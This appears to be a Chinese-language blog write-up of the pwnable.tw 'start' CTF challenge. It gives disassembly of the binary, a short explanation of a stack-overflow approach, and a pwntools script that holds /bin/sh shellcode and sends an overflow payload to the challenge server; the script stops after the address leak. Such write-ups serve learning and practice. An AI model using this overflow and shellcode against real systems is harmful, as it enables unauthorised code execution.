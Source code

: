 ```yaml
---
title: pwnable.tw练习
date: 2018-12-01 17:50:59
tags:
---
```


# start

```
push    esp
.text:08048061                 push    offset _exit
.text:08048066                 xor     eax, eax
.text:08048068                 xor     ebx, ebx
.text:0804806A                 xor     ecx, ecx
.text:0804806C                 xor     edx, edx
.text:0804806E                 push    3A465443h
.text:08048073                 push    20656874h
.text:08048078                 push    20747261h
.text:0804807D                 push    74732073h
.text:08048082                 push    2774654Ch
.text:08048087                 mov     ecx, esp        ; addr
.text:08048089                 mov     dl, 14h         ; len
.text:0804808B                 mov     bl, 1           ; fd
.text:0804808D                 mov     al, 4
.text:0804808F                 int     80h             ; LINUX - sys_write
.text:08048091                 xor     ebx, ebx
.text:08048093                 mov     dl, 3Ch
.text:08048095                 mov     al, 3
.text:08048097                 int     80h             ; LINUX -
.text:08048099                 add     esp, 14h
.text:0804809C                 retn
```

方法一:

通过栈溢出控制eip指向0x08048087，从而泄露栈的地址，再次输入shellcode,控制eip指向shellcode即可。

```
from pwn import *

#debug = int(raw_input("debug?:"))
debug = 0
if debug:
    p = process("./start")
    context.log_level = "debug"
else:
    p = remote("chall.pwnable.tw", 10000)

"""
ebx
ecx
edx
eax
int 0x80
"""
shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

#attach(p, "b *0x08048097")
p.recvuntil("CTF:")
p.sendline("a" * 0x14 + p32(0x08048087))

shell_addr = u32(p.recvn(4)) + 0x14
print hex(shell_addr)
```